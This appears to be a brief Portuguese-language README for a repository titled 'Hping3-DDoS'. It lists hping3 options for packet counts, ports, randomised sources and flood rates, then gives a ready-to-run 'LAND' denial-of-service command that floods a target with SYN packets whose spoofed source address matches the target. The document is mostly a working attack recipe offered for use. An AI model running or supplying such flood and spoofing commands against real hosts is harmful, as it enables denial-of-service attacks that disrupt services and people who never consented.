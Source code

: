 # Hping3-DDoS

# Important Commands

```
• -V: Modo Verbose;
• -c: Contador de pacotes;
• -d: Tamanho do dado;
• -p: Porta de destino;
• -s: Porta de origem;
• –rand-source: Randomização da origem;
• –fast: 10 pacotes por segundo;
• –faster: 100 pacotes por segundo;
• –flood: Máximo de pacotes possı́veis por segundo;
```


## Atack DoS Land
```
hping3 -V -c 1000 -d 100 -S -p 21 -s 80
-k -a 192.168.1.110 192.168.1.110
```